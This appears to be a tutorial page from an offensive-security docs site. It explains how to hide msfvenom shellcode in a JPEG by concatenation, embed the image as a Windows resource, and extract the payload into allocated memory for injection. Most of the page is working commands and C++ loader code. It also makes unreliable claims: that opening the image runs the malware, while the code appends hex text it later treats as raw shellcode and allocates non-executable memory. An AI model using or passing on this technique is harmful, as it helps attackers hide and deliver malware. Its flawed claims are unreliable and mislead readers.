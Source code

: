 ```yaml
---
layout: default
---
```


# Image Concatenation

The basic idea is to hide the malware inside the concatenated image file. The malware can be hidden in the binary data of the image file. This can be done by adding the malware code to the end of the image file, after the image data. When the concatenated image file is downloaded and opened, the image will display normally, but the malware code will be executed in the background.

1. Download a random image and find the length of byte. We can `xxd` for this purpose.

```
xxd -i saturn.jpg
```

![Saturn.jpg with XXD](/docs/resources/malware/saturn-xxd.jpg)

As shown above, the command precisely display the size of the image in bytes. Take a note.

1. Create a binary with msfvenom and find its size. For demonstration purposes, lets use a message box binary.

```bash
xxd -i msgbox64.bin
```

![msgbox](/docs/resources/malware/msgbox-size.png)

Once we have both the file length, concatenate the shellcode with the image file.

```bash
xxd -p msgbox64.bin | tr -d "\n" >> saturn.jpg
```

2. Create the resource file for the image.

```cpp
#include "resources.h"

IMAGE RCDATA "saturn.jpg"
```

Similarly the` resource.h` file

```cpp
#define IMAGE 100
```

Final code for reading the malicious image file for the resource would be:

```cpp
// Extract payload from resources section
res = FindResourceA(NULL, MAKEINTRESOURCE(IMAGE), RT_RCDATA);
resHandle = LoadResource(NULL, res);
image = (char *) LockResource(resHandle);
image_len = SizeofResource(NULL, res);
```

The `image` character pointer points to first byte of the malicios image, and `image_len` the corresponding length of the image.

3. Extract the shellcode

The `end` character pointer would point to the first byte of binary.

We know already made of note of image length as well as the shellcode length. We can find the corresponding offset that would point to the first byte of the shellcode.

```
offset = image + 2653; 
memcpy(p0,offset,336);

exec_mem = VirtualAlloc(0, 336, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
RtlMoveMemory(exec_mem, p0, 336);
```

We then use the `memcpy` command to copy the shellcode from the image to another location in memory `p0`. Using `VirtualAlloc` shellcode size memory is allocated. Then `RTLMoveMemory` function is used to copy the contents from `p0` memory block to a `exec_mem` memory block. At this point the code could be used to inject into a process or execute as a child process.




